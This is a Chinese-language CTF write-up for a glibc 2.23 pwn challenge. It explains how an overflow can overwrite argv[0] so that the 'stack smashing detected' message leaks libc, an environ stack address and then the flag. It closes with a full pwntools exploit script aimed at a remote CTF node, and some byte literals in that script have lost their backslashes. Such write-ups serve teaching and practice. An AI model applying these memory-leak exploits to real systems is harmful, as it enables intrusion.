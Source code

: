 这题是2.23版本的但是我因为我版本跟2.23的不一样，所以就偏移啥的都不一样，所以就下面引用了被人的文章作为解释，解释如下：

![[Pasted image 20241202224349.png]]


![[Pasted image 20241202223810.png]]

这题就三次输入的机会，而且还有canary的保护，主体中是用的fork实现的三次输入，而且是存在溢出，但是有一点就是我们得不到canary的值，这是因为我们我们没法泄露，puts函数泄露不了，这里面就用到了environ这个全局变量表了，这个表保存了很多的消息，例如path的路径，等等，我们需要这题是需要canary的报错的，

![[Pasted image 20241202225855.png]]

如果不满足就会报错退出，但是在报错退出的时候，会打印出一点东西，stack smashing报错，为了让大家看的更直观，我们不妨直接运行看看
![[Pasted image 20241202230025.png]]

可以看到，打印出了一点东西，这也就是我们需要利用的，因为我们没有别的方法去输入，就要用到canary报错输出，而如果是在根目录，其实你会看到程序名，

![[Pasted image 20241202230056.png]]

实际上这个文件名是由argv[0]指向的。只要通过栈溢出用自己构造的字符串地址覆盖掉argv[0]就能打印相应的字符串。这是前置知识，至于argv[0],不用过多了解，只需要知道这是一个参数即可。

源码如下：
```
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

为什么要知道这个呢，因为程序报错是必然的，我们没有任何办法泄露canary，如果不利用这一点，我们什么都做不了。

#### 思路分析

我们有三次机会，首先先确定一点，第一就是我们需要泄露栈地址才可以泄露出flag，我们在我们只有输出的情况下，只能泄露environ变量里面的libc了，因为这里面的libc和别的地方的偏移是不会变的，所以第一步，先利用这个打印，泄露出libc，第二次再打印environ里面的栈地址，最后经过计算，我们把flag的地址放过去。
![[Pasted image 20241202230138.png]]
方框里面就是文件的地址。

exp
```
from pwn import *

from LibcSearcher import*

#io=process('./pwn')

io=remote('node5.buuoj.cn',25673)

elf=ELF('pwn')

puts=elf.got['puts']

payload1=b'a'*0x128+p64(puts)

io.recv()

#gdb.attach(io,"b *0x400B23")

io.sendline(payload1)

puts_addr=u64(io.recvuntil(b'x7f')[-6:].ljust(8,b'x00'))

print(hex(puts_addr))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump("puts")

environ = libc_base + libc.dump("environ")

payload2=b'a'*0x128+p64(environ)

io.sendline(payload2)

flag=u64(io.recvuntil(b'x7f')[-6:].ljust(8,b'x00'))-0x168

print(hex(flag))

payload3=b'a'*0x128+p64(flag)

io.recv()

io.sendline(payload3)

io.recv()

io.interactive()
```

